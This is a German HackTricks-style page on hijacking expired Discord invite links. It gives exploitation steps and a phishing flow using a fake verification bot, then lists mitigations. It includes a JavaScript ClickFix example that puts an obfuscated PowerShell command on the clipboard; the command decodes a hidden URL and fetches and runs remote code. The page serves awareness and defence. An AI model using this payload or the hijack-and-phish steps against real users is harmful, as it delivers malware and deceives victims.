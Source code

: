 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Die Schwachstelle im Einladungsystem von Discord ermöglicht es Bedrohungsakteuren, abgelaufene oder gelöschte Einladungslinks (temporär, permanent oder benutzerdefiniert) als neue benutzerdefinierte Links auf jedem Level 3-boosted Server zu beanspruchen. Durch die Normalisierung aller Codes auf Kleinbuchstaben können Angreifer bekannte Einladungslinks vorregistrieren und den Verkehr stillschweigend übernehmen, sobald der ursprüngliche Link abläuft oder der Quellserver seinen Boost verliert.

## Einladungsarten und Hijack-Risiko

| Einladungsart         | Hijackbar? | Bedingung / Kommentare                                                                                     |
|-----------------------|-------------|------------------------------------------------------------------------------------------------------------|
| Temporärer Einladungslink | ✅          | Nach Ablauf wird der Code verfügbar und kann von einem boosted Server als benutzerdefinierte URL neu registriert werden. |
| Permanenter Einladungslink | ⚠️          | Wenn gelöscht und nur aus Kleinbuchstaben und Ziffern besteht, kann der Code wieder verfügbar werden.     |
| Benutzerdefinierter Vanity-Link | ✅          | Wenn der ursprüngliche Server seinen Level 3 Boost verliert, wird die benutzerdefinierte Einladung für eine neue Registrierung verfügbar. |

## Ausbeutungsstufen

1. Aufklärung
- Überwachen Sie öffentliche Quellen (Foren, soziale Medien, Telegram-Kanäle) nach Einladungslinks, die dem Muster `discord.gg/{code}` oder `discord.com/invite/{code}` entsprechen.
- Sammeln Sie interessante Einladungslinks (temporär oder benutzerdefiniert).
2. Vorregistrierung
- Erstellen oder verwenden Sie einen bestehenden Discord-Server mit Level 3 Boost-Rechten.
- In **Servereinstellungen → Vanity-URL** versuchen Sie, den Ziel-Einladungscode zuzuweisen. Wenn akzeptiert, wird der Code vom böswilligen Server reserviert.
3. Aktivierung des Hijacks
- Warten Sie bei temporären Einladungen, bis die ursprüngliche Einladung abläuft (oder löschen Sie sie manuell, wenn Sie die Quelle kontrollieren).
- Für Codes mit Großbuchstaben kann die Kleinbuchstabenvariante sofort beansprucht werden, obwohl die Umleitung erst nach Ablauf aktiviert wird.
4. Stille Umleitung
- Benutzer, die den alten Link besuchen, werden nahtlos an den vom Angreifer kontrollierten Server weitergeleitet, sobald der Hijack aktiv ist.

## Phishing-Flow über Discord-Server

1. Beschränken Sie die Serverkanäle, sodass nur ein **#verify**-Kanal sichtbar ist.
2. Setzen Sie einen Bot (z. B. **Safeguard#0786**) ein, um Neuankömmlinge zur Verifizierung über OAuth2 aufzufordern.
3. Der Bot leitet die Benutzer zu einer Phishing-Seite (z. B. `captchaguard.me`) unter dem Vorwand eines CAPTCHA- oder Verifizierungsschrittes weiter.
4. Implementieren Sie den **ClickFix** UX-Trick:
- Zeigen Sie eine fehlerhafte CAPTCHA-Nachricht an.
- Leiten Sie die Benutzer an, den **Win+R**-Dialog zu öffnen, einen vorab geladenen PowerShell-Befehl einzufügen und die Eingabetaste zu drücken.

### ClickFix Clipboard Injection Beispiel
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Dieser Ansatz vermeidet direkte Dateidownloads und nutzt vertraute UI-Elemente, um das Misstrauen der Benutzer zu verringern.

## Milderungsmaßnahmen

- Verwenden Sie permanente Einladungslinks, die mindestens einen Großbuchstaben oder ein nicht-alphanumerisches Zeichen enthalten (nie ablaufen, nicht wiederverwendbar).
- Rotieren Sie regelmäßig die Einladungs-Codes und widerrufen Sie alte Links.
- Überwachen Sie den Boost-Status des Discord-Servers und die Ansprüche auf benutzerdefinierte URLs.
- Schulen Sie die Benutzer, die Authentizität des Servers zu überprüfen und das Ausführen von in die Zwischenablage kopierten Befehlen zu vermeiden.

## Referenzen

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}
